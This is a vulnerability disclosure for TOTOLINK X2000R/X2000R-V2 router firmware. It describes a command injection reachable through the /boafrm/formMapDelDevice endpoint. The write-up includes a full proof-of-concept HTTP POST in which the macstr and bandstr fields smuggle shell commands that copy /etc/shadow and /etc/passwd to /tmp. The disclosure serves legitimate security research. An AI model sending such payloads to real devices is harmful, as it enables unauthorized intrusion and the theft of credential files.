 # Information



**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** X2000R/X2000R-V2

**Affected firmware version:** V1.0.0-B20230726.1108

**Firmware download address:** [download]([TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/242/ids/36.html))

# Overview

A serious command execution vulnerability was discovered in TOTOLINK X2000R and X2000R v2. The vulnerability can be triggered by the route /boafrm/formMapDelDevice. The attacker can achieve command execution by sending HTTP POST requests.

# Vulnerability details

Function formMapDelDevice is implemented by function sub_459520

![image-20250428212107902](1/image-20250428212107902.png)

There is a command injection vulnerability here

![image-20250428212212533](1/image-20250428212212533.png)

```
POST /boafrm/formMapDelDevice HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 133
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/parent_control.htm
Upgrade-Insecure-Requests: 1
Priority: u=4

sessionCheck=1f9685b1eb3e1d38c2fd19e467a8c6ff&clientoff=aaa&macstr=;cat /etc/shadow>/tmp/1.txt;&bandstr=`cat /etc/passwd >/tmp/2.txt`
```

![image-20250428212316520](1/image-20250428212316520.png)